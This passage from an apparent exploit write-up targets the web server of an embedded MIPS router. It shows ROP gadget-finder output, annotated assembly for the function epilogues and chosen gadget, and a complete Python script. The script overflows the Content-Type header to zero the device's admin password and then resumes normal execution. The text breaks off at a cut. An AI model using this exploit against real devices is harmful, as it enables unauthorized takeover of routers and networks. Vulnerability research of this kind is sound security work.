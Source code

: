 ```
     801794ec      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     801a0aa0      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           9
     801b8d60      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     801b8dc8      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     801cb6a0      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           8
MIPS_ROP_Gadgets.py> Finished!
```

The parent who calls `FUN_801609d4` (the exploitable function) is `FUN_80163ac0` and has the following function epilogue:

```assembly
80163b60  04 00 bf 8f  lw      ra,0x4(sp) # ra will be address of the ROP gadget
80163b64  00 00 b0 8f  lw      s0,0x0(sp) # s0 is under user control
80163b68  08 00 e0 03  jr      ra
80163b6c  10 00 bd 27  _addiu  sp,sp,0x10 # this is the stack size of the parent
```

So a ROP gadget is needed with a stack size of `0x10` so that the exploit returns to the parent of `FUN_80163ac0` (which is `FUN_80160a4c`, the HTTP method dispatcher). The gadget chosen for this exploit is at `0x80175fd8` and has the following code:

```assembly
80175fd8  00 00 00 ae  sw      zero,0x0(s0) # the target ROP gadget
80175fdc  08 00 bf 8f  lw      ra,0x8(sp)   # where the "real" ra needs to be
80175fe0  04 00 b1 8f  lw      s1,0x4(sp)   # could be an issue but not used by parents :)
80175fe4  00 00 b0 8f  lw      s0,0x0(sp)   # could be an issue but not used by parents :)
80175fe8  08 00 e0 03  jr      ra
80175fec  10 00 bd 27  _addiu  sp,sp,0x10   # must match the stack size of the parent
```

With this gadget, the exploit needs to overflow beyond the original buffer in order to ensure the address of the admin password is restored into `s0` by this selected ROP gadget and then returns to `FUN_80160a4c` (the grandparent of `FUN_801609d4`). Here is the final exploit (the 8 `0xA`s are padding for the 2 function stacks that are not used by our ROP gadget):

```python
import requests

header  = 'application/x-httpd-cgi'
filler  = 'B' * (0x48 - len(header))
s0      = '\x80\xB4\x25\x54'[::-1]   # address of the admin password
rop_ra  = '\x80\x17\x5F\xD8'[::-1]   # sw $zero, 0($s0) | $sp += 0x10
real_ra = '\x80\x16\x0F\x2C'[::-1]   # return address to the grandparent of FUN_801609d4
BUF = '{0}{1}{2}{3}AAAAAAAA{4}'.format(header, filler, s0, rop_ra, real_ra)
resp = requests.post("http://192.168.2.1/home.htm", headers = {
    'Content-Type': BUF
})
```

**NOTE:** In the exploit, the addresses are reversed before being sent because the target architecture is little endian _but_ network byte order is big endian.

Notice that the `real_ra` in the exploit is the address of the instruction _after_ calling the parent of the exploitable function. This is where the ROP gadget needs to return to in order to maintain "normal" code execution. The relevant assembly is as follows:
